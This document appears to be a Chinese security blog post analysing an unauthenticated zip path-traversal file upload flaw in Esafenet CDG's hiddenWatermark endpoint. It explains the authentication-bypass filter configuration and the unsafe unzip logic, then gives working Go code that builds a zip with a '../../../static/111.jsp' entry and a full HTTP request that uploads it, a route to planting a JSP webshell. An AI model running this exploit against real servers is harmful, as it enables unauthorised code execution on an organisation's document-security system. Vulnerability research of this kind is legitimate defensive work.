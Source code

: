 

# 亿赛通hiddenWatermark文件上传漏洞分析 - 先知社区

亿赛通hiddenWatermark文件上传漏洞分析

- - -

## 路由分析

查看`web.xml`

```plain
<!-- needed for ContextLoaderListener -->
<context-param>
    <param-name>contextConfigLocation</param-name>
    <param-value>/WEB-INF/spring/spring-sip.xml</param-value>
</context-param>

<servlet>
    <servlet-name>springDispatcherServlet</servlet-name>
    <servlet-class>org.springframework.web.servlet.DispatcherServlet</servlet-class>
    <init-param>
        <param-name>contextConfigLocation</param-name>
        <param-value>/WEB-INF/spring/spring-mvc.xml</param-value>
    </init-param>
    <load-on-startup>1</load-on-startup>
</servlet>

<servlet-mapping>
    <servlet-name>springDispatcherServlet</servlet-name>
    <url-pattern>*.do</url-pattern>
</servlet-mapping>
<servlet-mapping>
    <servlet-name>springDispatcherServlet</servlet-name>
    <url-pattern>/</url-pattern>
</servlet-mapping>
```

`DispatcherServlet` 处理和分发Web请求，典型的Spring MVC配置方式。

看看过滤器

```plain
<!-- 验证serssion的过滤器 -->
    <filter>
        <filter-name>SessionValidateFilter</filter-name>
        <filter-class>
            com.esafenet.filter.SessionValidateFilter
        </filter-class>
        <init-param>
            <param-name>excludedLoginUrls</param-name>
            <param-value>/logincontroller,/static/,/images/,/img/,/js/,/css/,/style/,
                /sip-style/,/sip-js/,/index.jsp,/loginExpire.jsp,/app/,/paramExpire.jsp,/druid,/todolistjump.jsp,/3g/,/LinkFilterService
            </param-value>
        </init-param>
        <init-param>
            <param-name>excludedClientUrls</param-name>
            <param-value>/TestConnectService,/GetValidateLoginUserService,
                /GlobalServlet,/secretKey/,/security/,/s/rs/,/FileCountService,/FilesService,/formType,
                /FileAuditService,/GetBoeFlowService,/GetUserSafetyPolicyService,/old/,/GetMacUserSafetyPolicy,/GetLinuxUserSafetyPolicy,/UserLoginOutService1,
                /UninstallApplicationService1,/UpdatePasswordService,/CDGAuthoriseTempletService1,/MailApp,
                /formType1,/AutoSignService1,/clientMessage,/document/,/UpgradeService1,/UpgradeService2,
                /FileLog2Service,/ExamCDGDocService1,/retranAssetsXml,/getAllAuthKey,/ViolationsLogService,
                /DecryptionApp,/software/,/asset/,/deskLog/,/UsbRegStatusAppServlet,/docRenewApp,/EmailDecryptionApp,
                /offlineApp,/outgoingServlet,/OutgoingRestoreApp,/permissionApp,/PrintLimitApp,/SecurityDropApp,
                /warning/,/fileCount/,/PrintAuditService,/outgoing/,/SystemService,/EmailAuditService,
                /GetDeskSafetyPolicyService,/UsbControlServlet,/egmServer/,/syncPolicy/,/secret/,/UserAjax,/OrganiseAjax,
                /GetUsecPolicyService,/OfflineApplicationService1,/OfflineApplicationService2,/client/,/WorkFileServlet,
                /DecryptApplicationService1,/parameter/HookService,/SystemConfig,/UsersService,/workflowE/,/ClientAjax,
                /EmailDecryptFileStatusApp,/getUltraSecKO,/MailMessageLogServices,/dlUltrasec,/checkWindowsPolicyUpdate,/saveKoFile,
                /softwareAsset/,/FileLogsService,/pageConfig,/subSecretQuery,/branchPolicy/,/policyLibNew/,/subsecret/,/rpc/,
                /groupControl/,/subSecretAdd,/exaction/,/subSecretDelete,/syncApi,/patchTask,/patchUpgrade,/log/logReport,/fuseApi,
                /policyLockSend,/wfPasswordConfig/,/estProperties/,/pingandept/,/updateDB/goDbUpdate,/api/estChat/,/hiddenWatermark/,
                /api/syncdata/
            </param-value>
        </init-param>
        ......
    </filter>
    <filter-mapping>
        <filter-name>SessionValidateFilter</filter-name>
        <url-pattern>/*</url-pattern>
    </filter-mapping>
```

这个 filter 会对 `/*` 鉴权，但是在配置中又排除了很多 url 。比如`excludedClientUrls` 中的`/hiddenWatermark/` 。

简单分析下`SessionValidateFilter`

[![](assets/1706771809-4314e2c2f2f68c08d8913bddd3b97c52.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240129193143-fa39245a-be99-1.png)

将`excludedClientUrls`中的 path 都放进 `this.excludedClientUrls`。

继续看`doFilter`

[![](assets/1706771809-cbd2e055f33ab8cb25b341b218ebd95e.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240129193201-04f7adda-be9a-1.png)

看到`excludedClientUrls`中的都不需要鉴权，当然不只这个。

来看看具体路由,

指定包扫描的规则

```plain
<context:component-scan  base-package="com.esafenet.ta" use-default-filters="false">
    <context:include-filter type="annotation" expression="org.springframework.stereotype.Controller"/>
</context:component-scan>
```

## 漏洞分析

类`com.esafenet.ta.server.controller.deskManage.HiddenWatermarkController`

[![](assets/1706771809-414fdbf4f23ccb43532cd9bf672b4767.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240129193223-12230004-be9a-1.png)

很明显的上传，然后`FileUtil.writeFile` 将内容写进 一个 zip 文件，`CDGUtil.unzipFile` 将其解压。

跟进看看

[![](assets/1706771809-bf0a3accd41e3d17568ecad4b571f62a.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240129193236-1a248278-be9a-1.png)

与 压缩包内的文件名拼接，可以路径穿越。

回到`uploadFile` ，

```plain
String xmlPath = dirPath + File.separator + uuid + File.separator + "theme" + File.separator + "theme1.xml";
File file = new File(xmlPath);
fis1 = new FileInputStream(file);
```

这里可以构造 `theme1.xml` 按流程走下去。  
但是也可以不构造，然后会抛出异常走 catch

```plain
catch (Exception var32) {
    logger.error(var32.getMessage(), var32);
    map.put("fileId", "null");
    var31 = false;
}
```

## 漏洞利用

制作压缩包

```plain
package main

import (
    "archive/zip"
    "os"
)

func main() {

    zipFilePath := "test1.zip"

    binary := []byte("test1")

    zipFile, err := os.OpenFile(zipFilePath, os.O_WRONLY|os.O_CREATE|os.O_APPEND, 0644)
    if err != nil {
        panic(err)
    }
    defer zipFile.Close()

    zipWriter := zip.NewWriter(zipFile)
    defer zipWriter.Close()

    zipInfo := &zip.FileHeader{
        Name:   "../../../static/111.jsp",
        Method: zip.Deflate,
    }

    writer, err := zipWriter.CreateHeader(zipInfo)
    if err != nil {
        panic(err)
    }

    _, err = writer.Write(binary)
    if err != nil {
        panic(err)
    }
}
```

这里由于写到根目录有鉴权，所以写到`static`等目录。  
也可以写`../../../../../tomcat/webapps/ROOT/`

```plain
POST /CDGServer3/hiddenWatermark/uploadFile HTTP/1.1
Host: 
Content-Type: multipart/form-data; boundary=------------------------ZJFgyTJOTvpUxHrORpYjkblliLjmziUgFqpcBCZJ
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/83.0.4103.116 Safari/537.36
Content-Length: 183

--------------------------ZJFgyTJOTvpUxHrORpYjkblliLjmziUgFqpcBCZJ
Content-Disposition: form-data; name="doc";filename="1.zip"

{{file(d:\test1.zip)}}
--------------------------ZJFgyTJOTvpUxHrORpYjkblliLjmziUgFqpcBCZJ--
```

[![](assets/1706771809-190d5874792da75ef4a07e403cbced57.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240129193308-2cc6a19a-be9a-1.png)

[![](assets/1706771809-cdd6a37a798d20131e11dc48dac84e72.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240129193312-2f3d23b8-be9a-1.png)
